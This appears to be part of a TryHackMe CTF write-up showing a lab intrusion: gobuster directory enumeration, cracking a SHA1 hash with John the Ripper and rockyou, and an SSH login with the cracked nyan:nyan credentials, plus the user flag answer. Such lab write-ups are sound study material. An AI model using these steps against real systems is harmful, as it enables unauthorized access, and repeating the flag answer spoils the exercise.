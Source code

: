 ### Gobuster enumeration of secret directory with txt extension

```bash
$ gobuster dir -x txt -w /usr/share/wordlists/dirb/common.txt -t 100 -u http://10.10.17.221/secret -b 403,404
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.17.221/secret
[+] Method:                  GET
[+] Threads:                 100
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   403,404
[+] User Agent:              gobuster/3.1.0
[+] Extensions:              txt
[+] Timeout:                 10s
===============================================================
2021/05/16 20:17:19 Starting gobuster in directory enumeration mode
===============================================================
/index.html           (Status: 200) [Size: 0]
/secret.txt           (Status: 200) [Size: 46]
                                              
===============================================================
2021/05/16 20:17:36 Finished
===============================================================
```

### Cracking the Hash in nyan.txt

```bash
$ john --format=raw-sha1 --wordlist=/usr/share/wordlists/rockyou.txt secret.txt 
Using default input encoding: UTF-8
Loaded 1 password hash (Raw-SHA1 [SHA1 256/256 AVX2 8x])
Press 'q' or Ctrl-C to abort, almost any other key for status
nyan             (?)
1g 0:00:00:00 DONE (2021-05-16 20:20) 1.408g/s 7000Kp/s 7000Kc/s 7000KC/s nyan042077..nyamwaro
Use the "--show --format=Raw-SHA1" options to display all of the cracked passwords reliably
Session completed
```

### user.txt
- **Answer:** supernootnoot
- **Steps to Reproduce:** 
   - Login using ssh `nyan:nyan`:

```bash
$ ssh nyan:10.10.17.221
ssh: Could not resolve hostname nyan:10.10.17.221: Name or service not known
root@kali:~/Desktop/CTF/TryHackMe/ccpentesting/final-exam# ssh nyan@10.10.17.221
The authenticity of host '10.10.17.221 (10.10.17.221)' can't be established.
ECDSA key fingerprint is SHA256:haqegvkQqmIEEzS0Mcd+NUsONboBQ6z3wQSwq+aj5Es.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.17.221' (ECDSA) to the list of known hosts.
nyan@10.10.17.221's password: 
Welcome to Ubuntu 16.04.6 LTS (GNU/Linux 4.4.0-142-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage
Last login: Sat Dec 21 08:37:54 2019

nyan@ubuntu:~$ id
```